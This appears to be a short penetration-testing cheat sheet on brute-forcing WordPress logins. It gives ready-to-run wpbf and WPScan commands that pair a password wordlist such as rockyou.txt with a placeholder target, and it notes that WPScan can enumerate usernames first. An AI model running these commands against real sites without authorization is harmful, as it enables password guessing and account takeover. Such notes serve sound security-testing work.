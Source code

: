 # Bruteforcing WordPress
Bruteforce tools: 
https://github.com/search?o=desc&q=wordpress+bruteforce&s=&type=Repositories

## wpbf
https://github.com/atarantini/wpbf
```bash
python wpbf.py -w passwords.txt -u admin http://<target-wordpress>
```

## WPScan
https://github.com/wpscanteam/wpscan
```bash
wpscan --url http://<target-wp> --wordlist /usr/share/wordlist/rockyou.txt --username admin
## You can leave out --username. Then it will first enumerate all usernames and then begin bruteforce
wpscan --url http://<target-wp> --wordlist /usr/share/wordlist/rockyou.txt
```
